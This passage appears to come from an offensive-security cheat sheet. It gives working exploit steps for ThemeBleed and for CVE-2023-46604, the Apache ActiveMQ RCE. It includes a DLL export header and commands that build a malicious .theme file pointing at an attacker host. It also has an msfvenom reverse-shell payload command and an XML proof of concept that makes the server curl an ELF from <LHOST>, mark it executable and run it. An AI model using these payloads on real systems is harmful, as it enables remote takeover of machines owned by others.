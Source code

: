 ### rev.h

Header Files > Add > New Item...

```c
#pragma once

extern "C" __declspec(dllexport) int VerifyThemeVersion(void);
```

### pch.h

```c
// pch.h: This is a precompiled header file.
// Files listed below are compiled only once, improving build performance for future builds.
// This also affects IntelliSense performance, including code completion and many code browsing features.
// However, files listed here are ALL re-compiled if any one of them is updated between builds.
// Do not add files here that you will be updating frequently as this negates the performance advantage.

#ifndef PCH_H
#define PCH_H

// add headers that you want to pre-compile here
#include "framework.h"
#include "rev.h"

#endif //PCH_H

```

```cmd
PS C:\> .\ThemeBleed.exe make_theme <LHOST> aero.theme
```

```cmd
PS C:\> .\ThemeBleed.exe server
```

## CVE-2023-46604: Apache ActiveMQ OpenWire Transport RCE

> https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

```console
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<LHOST> LPORT=<LPORT> -f elf -o <FILE>.elf
```

```xml
$ cat poc-linux.xml 
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
   xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
   xsi:schemaLocation="
 http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
        <list>
            <value>sh</value>
            <value>-c</value>
            <!-- The command below downloads the file and saves it as test.elf -->
            <value>curl -s -o <FILE>.elf http://<LHOST>/<FILE>.elf; chmod +x ./<FILE>.elf; ./<FILE>.elf</value>
        </list>
        </constructor-arg>
    </bean>
</beans>
```